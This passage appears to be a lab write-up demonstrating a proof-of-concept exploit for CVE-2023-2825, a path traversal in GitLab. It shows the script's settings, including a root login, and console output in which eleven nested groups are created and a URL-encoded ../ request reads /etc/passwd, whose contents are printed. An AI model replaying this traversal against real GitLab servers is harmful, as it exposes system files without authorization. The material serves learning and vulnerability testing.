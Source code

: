 Let’s change username, password and  the endpoint inside this script before executing this script.

```jsx
ENDPOINT = "https://gitlab.icsd"
USERNAME = "root"
PASSWORD = "Shadow123123"
```

The result of the python script:

```jsx
─# python3 poc.py   
[*] Attempting to login...
[*] Login successful as user 'root'
[*] Creating 11 groups with prefix 469
[*] Created group '469-1'
[*] Created group '469-2'
[*] Created group '469-3'
[*] Created group '469-4'
[*] Created group '469-5'
[*] Created group '469-6'
[*] Created group '469-7'
[*] Created group '469-8'
[*] Created group '469-9'
[*] Created group '469-10'
[*] Created group '469-11'
[*] Created public repo '/469-1/469-2/469-3/469-4/469-5/469-6/469-7/469-8/469-9/469-10/469-11/CVE-2023-2825'
[*] Uploaded file '/uploads/2a9cdef69c9b1db6ce7fc909a96cb11f/file'
[*] Executing exploit, fetching file '/etc/passwd': GET - //469-1/469-2/469-3/469-4/469-5/469-6/469-7/469-8/469-9/469-10/469-11/CVE-2023-2825/uploads/2a9cdef69c9b1db6ce7fc909a96cb11f//..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```